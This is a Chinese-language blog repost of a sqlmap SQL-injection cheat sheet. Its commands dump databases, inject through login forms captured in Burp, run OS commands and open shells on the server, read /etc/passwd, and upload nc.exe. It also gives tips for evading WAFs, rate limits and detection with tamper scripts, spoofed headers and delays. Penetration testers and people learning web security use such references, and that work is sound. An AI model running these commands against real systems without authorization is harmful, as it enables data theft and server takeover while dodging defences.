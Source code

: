 ```yaml
---
title: "[转]【tools】SQLMAP注入工具手册"
description: ""
# category: 
# tags: [sql]
---
```


转自:<https://sh4dow.lofter.com/post/395c80_121497d>

# 基本的注入步骤：

    sqlmap -u "https://url/news?id=1" --dbs           #查询所有数据库
    sqlmap -u "https://url/news?id=1" --current-db          #获取当前数据库名
    sqlmap -u "https://url/news?id=1" --current-user        #获取当前用户名
    sqlmap -u "https://url/news?id=1" -D "db_name" --tables    #获取表名
    sqlmap -u "https://url/news?id=1" -D "db_name" -T "table_name"  --columns #获取列名
    sqlmap -u "https://url/news?id=1"  -D "db_name" -T "table_name" -C "column_name" --dump  #获取字段内容

注入请求选项使用：

    sqlmap -u "https://url/news?id=1"               #get注入
    sqlmap -u "https://url/news" --date "id=1"        #post注入
    sqlmap -u "https://url/news" --cookie "id=1"      #cookie注入

# 结合BurpSuite拦截的POST表单注入：

浏览器打开目标地址 https://testasp.vulnweb.com/Login.asp

配置burp代理(127.0.0.1:8080)以拦截请求

点击login表单的submit按钮

如下图，这时候Burp会拦截到了我们的登录POST请求

![](/assets/imgs/2015-08-18-01.jpg)

5. 把这个post请求复制为txt, 我这命名为search-test.txt 然后把它放至sqlmap目录下

6. 运行sqlmap并使用如下命令：./sqlmap.py -r search-test.txt -p tfUPass，这里参数 -r 是让sqlmap加载我们的post请求rsearch-test.txt，而-p 大家应该比较熟悉，指定注入用的参数。

# POST登陆框注入：

    sqlmap -u https://testasp.vulnweb.com/Login.asp  --forms     #除了截包还可以用forms选项进行自动搜索表单
    sqlmap -u https://testasp.vulnweb.com/Login.asp  --date "tfUName=123$tfUPass=456" #POST的表单参数注入

# 应对伪静态指定注入点：

    sqlmap -u "https://url/news/1*.html" --dbs       #在*插入SQL注入语句查询数据库
    sqlmap -u "https://url/news/1*/html" --dbs       #在*插入SQL注入语句查询数据库


# 指定系统及数据库：

    sqlmap -u "https://url/news?id=1" --dbms PostgreSQL        #指定数据库
    sqlmap -u "https://url/news?id=1"  --os linux           #指定数据库服务器系统

# 命令执行及交互shell：

    sqlmap -u "https://url/news?id=1" --os-cmd=ipconfig     #执行ipconfig系统命令
    sqlmap -u "https://url/news?id=1" --os-shell            #写交互shell
    sqlmap -u "https://url/news?id=1"  --sql-query "show databases;"    #执行SQL语句          
    sqlmap -u "https://url/news?id=1"  --sql-shell            #返回SQLshell

# 文件操作：

    sqlmap -u "https://url/news?id=1"  --file-read  /etc/passwd    #读取系统文件
    sqlmap -u "https://url/news?id=1"  --file-write "C:/WINDOWS/Temp/nc.exe" --file-dest "/software/nc.exe" 

查看payload及注入语句：

    sqlmap -u "https://url/news?id=1"  -v 3   

#-v 0、只显示python错误以及严重的信息；

1、同时显示基本信息和警告信息；（默认）

2、同时显示debug信息；

3、同时显示注入的payload；

4、同时显示HTTP请求；

5、同时显示HTTP响应头；

6、同时显示HTTP响应页面。

    sqlmap -u "https://url/news?id=1"  --proxy "https://127.0.0.1:8080" #配置burp代理(127.0.0.1:8080)以拦截请求注入语句

# 测试等级对HTTP头注入利用：

    sqlmap -u "https://url/news?id=1" --level 3    #--level参数来进行不同全面性的测试，默认为1，不同的参数影响了使用哪些payload，2时会进行cookie注入检测，3时会进行useragent检测

# 风险等级：

--risk   #共有三个风险等级，默认是1会测试大部分的测试语句，2会增加基于事件的测试语句，3会增加OR语句的SQL注入测试。

# 盲注添加payload语句前缀与后缀绕过WAF：

    sqlmap -u "https://url/news?id=1" -p id --suffix=" -- " --prefix=")"    #相当于https://url/news?id=1）order by 10 -- 

# 编码绕过WAF：

    sqlmap -u "https://url/news?id=1" -v 3 --dbs --tamper "space2morehash.py"  #用tamper选择编码表绕过WAF注入，更多见ramper目录

# 伪装http头绕过工具识别：

    sqlmap -u "https://url/news?id=1" --referer "https://www.baidu.com"    #从百度域超链接访问的
    sqlmap -u "https://url/news?id=1" --user-agent="Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)" #设置浏览器信息
    sqlmap -u "https://url/news?id=1"  --mobile                 #伪装成智能手机，设定一个手机的User-Agent来模仿手机登陆

# 绕过HTTP请求限制：

    sqlmap -u "https://url/news?id=1"  --delay 2    #延迟时间为2秒，绕过请求频繁被防火墙拦截
    sqlmap -u "https://url/news?id=1"  --safe-url       #每隔一段时间去访问一个正常的页面，绕过多次错误访问后屏蔽请求
    sqlmap -u "https://url/news?id=1"  --safe-freq    #每次测试请求之后都再访问一遍安全连接，绕过多次错误访问后屏蔽请求

# 绕过URL参数值编码：

    sqlmap -u "https://url/news?id=1" --skip-urlencode   #关闭url编码，使web服务器接受url值

# 从文本中获取多个目标检测：

www.target1.com/vuln1.php?q=foobar

www.target2.com/vuln2.asp?id=1

www.target3.com/vuln3/id/1*               

    sqlmap -m  url.txt                       #将url格式保存到文件，sqlmap会逐一检测

# 启发式判断注入：

    sqlmap -u "https://url/news?id=1"  --batch --smart  #默认智能判断注入
